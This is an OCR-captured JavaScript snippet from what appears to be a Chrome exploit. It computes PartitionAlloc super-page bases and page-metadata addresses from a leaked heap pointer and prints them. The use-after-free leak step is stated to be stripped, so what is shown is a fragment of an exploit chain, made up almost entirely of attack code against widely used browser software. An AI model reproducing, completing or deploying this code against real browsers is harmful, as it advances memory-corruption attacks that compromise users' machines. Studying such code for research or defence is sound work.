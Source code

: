 ```js
}
 
function getMetadataAreaBaseFromPartitionSuperPage(addr) {
    let superPageBase = getSuperPageBase(addr);
    let systemPageSize = BigInt(0x1000);
    return superPageBase + systemPageSize;
}
 
function getPartitionPageMetadataArea(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    let pageMetadataSize = BigInt(0x20);
    let partitionPageMetadataPtr = getMetadataAreaBaseFromPartitionSuperPage(addr) + partitionPageIndex * pageMetadataSize;
    return partitionPageMetadataPtr;
}

function byteSwapBigInt(x) {
    let result = BigInt(0);
    let tmp = x;
 
    for (let i = 0; i < 8; i++) {
            result = result << BigInt(8);
            result += tmp & BigInt(0xFF);
            tmp = tmp >> BigInt(8);
    }
 
    return result;
}

/////////////////
//
// uaf leak part is here, just stripped from this code snippet
//
/////////////////

var be_leak = page_leak;
view.setBigUint64(0,page_leak,true)
page_leak = view.getBigUint64(0,false);
super_base = getSuperPageBase(page_leak);
partition_idx = getPartitionPageIndex(page_leak);
part_page = getPartitionPageBaseWithinSuperPage(page_leak,partition_idx);
metadata_base = getMetadataAreaBaseFromPartitionSuperPage(page_leak);
metadata_area = getPartitionPageMetadataArea(page_leak);
chrome_base = 0n;

console.log("page leak         -> "+hex(page_leak));
console.log("super base        -> "+hex(super_base));
console.log("partition idx     -> "+hex(partition_idx));
console.log("partition page    -> "+hex(part_page));
console.log("metadata rel base -> "+hex(metadata_base));
console.log("metadata area     -> "+hex(metadata_area));
```
